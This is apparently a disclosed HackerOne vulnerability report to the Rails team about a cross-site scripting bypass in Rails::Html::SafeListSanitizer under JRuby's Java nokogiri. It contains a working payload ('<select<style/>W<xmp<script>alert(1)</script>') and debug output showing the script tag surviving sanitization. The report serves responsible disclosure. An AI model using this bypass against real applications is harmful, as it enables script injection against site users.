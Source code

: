 # Rails::Html::SafeListSanitizer vulnerable to xss attack in an environment that allows the style tag

## Report Details
- **Report ID**: 1530898
- **URL**: https://hackerone.com/reports/1530898
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-04-05T07:34:03.681Z
- **Disclosed**: 2022-06-14T03:49:29.284Z

## Reporter
- **Username**: windshock
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
It seems to be a problem caused by a difference between the nokogiri java implementation and the ruby implementation.
It seems to be an ambiguous case as to whether to do it with nokogiri or have rails-html-sanitizer defend it.

jruby9.3.3.0 (nokogiri java), use Rails::Html::SafeListSanitizer.new.sanitize, allow select/style tag
code
```
tags = %w(select style)
puts "------------------------------------------------------------------"
puts "use Rails::Html::SafeListSanitizer.new.sanitize, allow select/style tag"
puts "input: <select<style/>W<xmp<script>alert(1)</script>"
puts "output: "+Rails::Html::SafeListSanitizer.new.sanitize("<select<style/>W<xmp<script>alert(1)</script>", tags: tags).to_s
puts "------------------------------------------------------------------"
```

result
```
input: <select<style/>W<xmp<script>alert(1)</script>
scrub --> node type :Nokogiri::XML::Text, node name :text, node to_s :W
scrub --> node type :Nokogiri::XML::Text, node name :text, node to_s :&lt;script&gt;alert(1)&lt;/script&gt;
scrub --> node type :Nokogiri::XML::Element, node name :xmp, node to_s :<xmp>&lt;script&gt;alert(1)&lt;/script&gt;</xmp>
scrub --> node type :Nokogiri::XML::Element, node name :style, node to_s :<style>W<script>alert(1)</script></style>
scrub --> node type :Nokogiri::XML::Element, node name :select, node to_s :<select><style>W<script>alert(1)</script></style></select>
output: <select><style>W<script>alert(1)</script></style></select>
```

## Impact

It is possible to bypass Rails::Html::SafeListSanitizer filtering and perform an XSS attack.

## Attachments
No attachments
